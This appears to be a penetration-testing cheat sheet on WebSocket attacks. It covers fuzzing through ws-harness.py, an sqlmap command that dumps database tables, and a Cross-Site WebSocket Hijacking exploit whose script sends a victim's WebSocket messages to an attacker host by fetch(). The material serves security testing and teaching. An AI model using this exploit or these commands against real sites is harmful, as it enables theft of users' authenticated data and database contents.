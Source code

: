 # Web Sockets Attacks

> The WebSocket protocol allows a bidirectional and full-duplex communication between a client and a server

## Summary

* [Tools](#tools)
* [Using ws-harness.py](#using-ws-harness-py)

## Tools

* [ws-harness.py](https://gist.githubusercontent.com/mfowl/ae5bc17f986d4fcc2023738127b06138/raw/e8e82467ade45998d46cef355fd9b57182c3e269/ws.harness.py)

## Using ws-harness.py

Start ws-harness to listen on a web-socket, and specify a message template to send to the endpoint.

```powershell
python ws-harness.py -u "ws://dvws.local:8080/authenticate-user" -m ./message.txt
```

The content of the message should contains the **[FUZZ]** keyword.

```json
{"auth_user":"dGVzda==", "auth_pass":"[FUZZ]"}
```

Then you can use any tools against the newly created web service, working as a proxy and tampering on the fly the content of message sent thru the websocket.

```python
sqlmap -u http://127.0.0.1:8000/?fuzz=test --tables --tamper=base64encode --dump
```

## Cross-Site WebSocket Hijacking (CSWSH)

If the WebSocket handshake is not correctly protected using a CSRF token or a
nonce, it's possible to use the authenticated WebSocket of a user on an
attacker's controlled site because the cookies are automatically sent by the
browser. This attack is called Cross-Site WebSocket Hijacking (CSWSH).

Example exploit, hosted on an attacker's server, that exfiltrates the received
data from the WebSocket to the attacker:

```html
<script>
  ws = new WebSocket('wss://vulnerable.example.com/messages');
  ws.onopen = function start(event) {
    websocket.send("HELLO");
  }
  ws.onmessage = function handleReply(event) {
    fetch('https://attacker.example.net/?'+event.data, {mode: 'no-cors'});
  }
  ws.send("Some text sent to the server");
</script>
```

You have to adjust the code to your exact situation. E.g. if your web
application uses a `Sec-WebSocket-Protocol` header in the handshake request,
you have to add this value as a 2nd parameter to the `WebSocket` function call
in order to add this header.

## References

- [HACKING WEB SOCKETS: ALL WEB PENTEST TOOLS WELCOMED by Michael Fowl | Mar 5, 2019](https://www.vdalabs.com/2019/03/05/hacking-web-sockets-all-web-pentest-tools-welcomed/)
- [Hacking with WebSockets - Qualys - Mike Shema, Sergey Shekyan, Vaagn Toukharian](https://media.blackhat.com/bh-us-12/Briefings/Shekyan/BH_US_12_Shekyan_Toukharian_Hacking_Websocket_Slides.pdf)
- [Mini WebSocket CTF - January 27, 2020 - Snowscan](https://snowscan.io/bbsctf-evilconneck/#)
